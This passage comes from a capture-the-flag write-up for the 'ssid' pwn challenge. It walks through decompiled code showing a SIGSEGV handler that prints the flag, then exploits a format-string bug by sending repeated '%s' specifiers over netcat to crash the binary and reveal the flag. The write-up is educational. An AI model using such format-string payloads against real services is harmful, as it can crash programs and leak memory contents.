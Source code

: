 ```c
void FUN_00101300(void)

{
  puts(DAT_00104020);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

It seems like we run into segmentation fault because there does not exist flag.txt file. Let's try again with flag.txt created

```console
┌──(kali㉿kali)-[~/Desktop/pwn/foobar_ctf/ssid]
└─$ touch flag.txt
                                                                            
┌──(kali㉿kali)-[~/Desktop/pwn/foobar_ctf/ssid]
└─$ ./ssid        
test
test
```

Looks like the program echo back we input

Another thing to note that the flag.txt file content was stored at ``` DAT_00104020 ```and in the function ``` FUN_00101300 ``` we print out its content  

Now we want to trigger that function, but how? If we look into the function signal we would find what it's doing is basically using ``` FUN_00101300 ``` to signal-handle a signum : ``` 0xb ``` or the signum for ``` SIGSEV ```

Now all we have to do is trigger ``` SIGSEV ``` and ``` FUN_00101300 ``` will give us flag  

```c
  __printf_chk(1,acStack56);
```
It's a tell-tale sign of a format string vulnerability, we just need to input a bunch of "%s"  

```console
┌──(kali㉿kali)-[~/Desktop/pwn/foobar_ctf/ssid]
└─$ nc chall.nitdgplug.org 30092
%s %s %s %s %s %s %s %s %s %s
(null)  %s %s %s %s %s %s %s %s %s %s
 GLUG{https://bit.ly/3vPXAuD}
```

The flag is : ``` GLUG{https://bit.ly/3vPXAuD} ```


## **Warmup**

### Description
> Can you help find the canary?

We only have binary file attached
